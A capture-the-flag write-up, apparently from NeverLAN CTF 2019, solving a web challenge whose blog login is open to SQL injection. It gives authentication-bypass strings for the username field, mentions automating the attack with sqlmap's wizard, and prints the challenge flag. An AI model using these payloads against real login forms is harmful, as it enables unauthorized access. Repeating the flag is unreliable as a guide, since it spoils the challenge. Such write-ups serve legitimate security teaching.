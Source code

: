 # Problem
Word on the street, Johnny's got a blog. Seems he doesn't know how to escape his inputs.

## Process
Enter the following into the username field and submit the form:
> ' or 1=1 or ''='

You could also enter the equivalent statement:
> ‘-0||’

You could also use sqlmap:
> sqlmap --wizard,
- It'll ask for the url (-u), then post data (none), injection difficulty (--level/--risk), and how much to enumerate

## Flag
flag{3sc4pe_Y0ur_1npu7s}

Resources:

- https://www.youtube.com/watch?v=glScQ9qqMlI
- http://niiconsulting.com/checkmate/2014/01/from-sql-injection-to-0wnage-using-sqlmap/

![mysqli](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/NeverLAN-CTF-2019/Web/Images/web-sqli.jpg?raw=true)
